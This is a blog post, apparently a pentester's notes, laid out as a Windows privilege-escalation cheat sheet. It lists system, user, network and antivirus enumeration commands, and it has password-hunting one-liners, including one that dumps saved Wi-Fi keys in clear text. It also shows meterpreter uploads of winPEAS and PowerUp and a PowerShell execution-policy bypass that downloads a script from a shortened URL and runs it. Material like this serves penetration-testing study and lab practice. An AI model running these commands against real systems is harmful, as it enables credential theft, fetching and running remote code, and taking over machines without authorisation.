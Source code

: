 ```yaml
---
layout: post
title: "windows privilege escalation"
keywords: "windows, privesc"
---
```


#### Resources

1. [https://github.com/TCM-Course-Resources/Windows-Privilege-Escalation-Resources](https://github.com/TCM-Course-Resources/Windows-Privilege-Escalation-Resources){:target="_blank"}
1, [Windows PrivEsc Checklist](https://book.hacktricks.xyz/windows/checklist-windows-privilege-escalation){:target="_blank"}

#### System enumeration

```
systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"

hostname

wmic qfe get Caption,Description,HotFixID, InstalledOn
wmic logicaldisk get caption,description,providername
```

#### User enumeration

```
whoami
whoami /priv
whoami /groups

net user
net user <user>
net localgroup
net localgroup <group>
```

#### Network enumeration

```
ipconfig /all

arp -a

route print

netstat -ano
```

#### Password Hunting
[https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md#eop---looting-for-passwords](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md#eop---looting-for-passwords)

```
findstr /si password *.txt *.ini *.config

dir /S /B *pass*.txt == *pass*.xml == *pass*.ini == *cred* == *vnc* == *.config*

cls & echo. & for /f "tokens=4 delims=: " %a in ('netsh wlan show profiles ^| find "Profile "') do @echo off > nul & (netsh wlan show profiles name=%a key=clear | findstr "SSID Cipher Content" | find /v "Number" & echo.) & @echo on
```

#### AV enumeration

```
sc query windefend
sc queryex type= service

netsh advfirewall firewall dump
netsh firewall show state
netsh firewall show config
```

#### Automated Tools

1. Executables: [WinPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS){:target="_blank"} / [Seatbelt]( https://github.com/GhostPack/Seatbelt){:target="_blank"} / [Watson](https://github.com/rasta-mouse/Watson){:target="_blank"} / [SharpUp](https://github.com/GhostPack/SharpUp){:target="_blank"}
1. Powershell: [Sherlock](https://github.com/rasta-mouse/Sherlock){:target="_blank"} / [PowerUp](https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc){:target="_blank"} / [JAWS](https://github.com/411Hall/JAWS){:target="_blank"}
1. Other: [Windows Exploit Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester){:target="_blank"} / [Metasploit Local Exploit Suggester](https://blog.rapid7.com/2015/08/11/metasploit-local-exploit-suggester-do-less-get-more/){:target="_blank"}

```
> cmd /c powershell Invoke-WebRequest http://10.10.14.140/<file> -OutFile <file>

meterpreter > cd c:\\windows\\temp
meterpreter > upload /opt/winpeas/winPEAS.exe
meterpreter > shell
> winPEAS.exe

meterpreter > cd c:\\windows\\temp
meterpreter > upload /opt/PowerUp.ps1
meterpreter > shell
> powershell -ep bypass
powershell > Import-Module PowerUp.ps1
powershell > Invoke-AllChecks

> powershell -nop -exec bypass -c “IEX (New-Object Net.WebClient).DownloadString(‘http://bit.ly/1mK64oH’); Invoke-AllChecks”

meterpreter > run post/multi/recon/local_exploit_suggester
```
- https://recipeforroot.com/advanced-powerup-ps1-usage/
- https://www.harmj0y.net/blog/powershell/powerup-a-usage-guide/
- https://www.hackingarticles.in/window-privilege-escalation-automated-script/